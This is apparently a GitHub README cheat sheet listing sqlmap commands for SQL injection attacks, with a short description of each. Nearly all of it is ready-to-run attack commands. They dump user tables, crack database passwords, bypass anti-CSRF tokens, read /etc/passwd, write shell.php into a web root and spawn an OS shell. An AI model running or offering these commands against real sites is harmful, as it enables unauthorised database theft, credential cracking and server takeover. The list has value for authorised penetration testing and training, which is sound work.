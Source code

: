# SQL-CheatSheet
Cheatsheet


Command	Description
sqlmap -h	View the basic help menu
sqlmap -hh	View the advanced help menu
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch	Run SQLMap without asking for user input
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'	SQLMap with POST request
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'	POST request specifying an injection point with an asterisk
sqlmap -r req.txt	Passing an HTTP request file to SQLMap
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'	Specifying a cookie header
sqlmap -u www.target.com --data='id=1' --method PUT	Specifying a PUT request
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt	Store traffic to an output file
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch	Specify verbosity level
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"	Specifying a prefix or suffix
sqlmap -u www.example.com/?id=1 -v 3 --level=5	Specifying the level and risk
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba	Basic DB enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb	Table enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname	Table/row enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"	Conditional enumeration
sqlmap -u "http://www.example.com/?id=1" --schema	Database schema enumeration
sqlmap -u "http://www.example.com/?id=1" --search -T user	Searching for data
sqlmap -u "http://www.example.com/?id=1" --passwords --batch	Password enumeration and cracking
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"	Anti-CSRF token bypass
sqlmap --list-tampers	List all tamper scripts
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba	Check for DBA privileges
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"	Reading a local file
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"	Writing a file
sqlmap -u "http://www.example.com/?id=1" --os-shell	Spawning an OS shell
